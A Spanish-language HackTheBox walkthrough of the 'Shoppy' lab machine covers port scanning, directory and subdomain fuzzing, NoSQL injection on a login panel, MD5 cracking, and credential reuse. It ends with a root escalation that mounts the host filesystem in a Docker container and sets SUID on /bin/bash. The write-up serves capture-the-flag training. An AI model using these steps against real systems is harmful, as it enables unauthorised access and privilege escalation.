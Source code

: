 ```yaml
---
title: HackTheBox - Shoppy
author: cotes
date: 2023-09-20 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'NoSQL Injection', 'Cracking Password', 'Leak Information', 'Docker Abusing']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Shoppy/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Shoppy Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **NoSQL Injection, Cracking Password, Leak Information, Docker Abusing**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Shoppy/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Shoppy/02-versions.png)

* Añadimos el host al fichero /etc/hosts

c. La página web no tiene información relevante, por lo que haremos un fuzzing de directorios y de subdominios

```bash
❯ gobuster dir -u http://shoppy.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt

**Output**
```bash
/ADMIN                (Status: 302) [Size: 28] [--> /login]
/Admin                (Status: 302) [Size: 28] [--> /login]
/Login                (Status: 200) [Size: 1074]           
/admin                (Status: 302) [Size: 28] [--> /login]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]   
/exports              (Status: 301) [Size: 181] [--> /exports/]
/favicon.ico          (Status: 200) [Size: 213054]             
/fonts                (Status: 301) [Size: 177] [--> /fonts/]  
/images               (Status: 301) [Size: 179] [--> /images/] 
/js                   (Status: 301) [Size: 171] [--> /js/]     
/login                (Status: 200) [Size: 1074]


❯ wfuzz -c -t 100 --hc=404 --hh=169 -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host: FUZZ.shoppy.htb" http://shoppy.htb/

000047340:   200        0 L      141 W      3122 Ch     "mattermost"
```


* El panel de **login** es vulnerable a inyección [No SQL](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)

    ![](/assets/images/HTB/Easy/Shoppy/03-nosql.png)

* Una vez en el sistema, podemos buscar usuario en el sistema, aquí también existe una inyección NOSQL y podremos descargar un fichero en el que se representará la información de todos los usuarios

    ![](/assets/images/HTB/Easy/Shoppy/04-data.png)

d. La clave que podemos crackear es la del usuario **josh**

```bash
❯ dcode 6ebcea65320589ca4f2f1ce039975995
<SNIP>
[+] Cracked MD5 Hash : remembermethisway
```

* Este usuario y contraseña son válidos para `mattermost.shoppy.htb`, aquí veremos credenciales válidas para SSH

    ![](/assets/images/HTB/Easy/Shoppy/05-creds.png)

### Escalada de Privilegios 💹

a. Listamos nuestro privilegios a nivel de sudoers

```bash
jaeger@shoppy:/home/deploy$ sudo -l
[sudo] password for jaeger: Sh0ppyBest@pp!

    (deploy) /home/deploy/password-manager
```

* Si le hacemos un cat a este binario, podremos ver la contraseña

    ```bash
    jaeger@shoppy:/home/deploy$ cat password-manager
    <SNIP>
    password: Sample
    <SNIP>
    ```

b. Ahora tendremos credenciales válidas para el usuario **deploy**

```bash
jaeger@shoppy:/home/deploy$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
jaeger@shoppy:/home/deploy$ su deploy
Password: Deploying@pp!
$ bash  
deploy@shoppy:~$
```

c. Vemos los grupos de los que somos miembros

```bash
deploy@shoppy:~$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```

* Ejecutamos un contenedor con una montura el sistema host en el directorio `/mnt` del contenedor

    ```bash
    deploy@shoppy:~$ docker run -v /:/mnt/ --rm -it alpine chroot /mnt sh
    # chmod +s /bin/bash
    # exit
    deploy@shoppy:~$ bash -p
    bash-5.1# whoami
    root
    ```

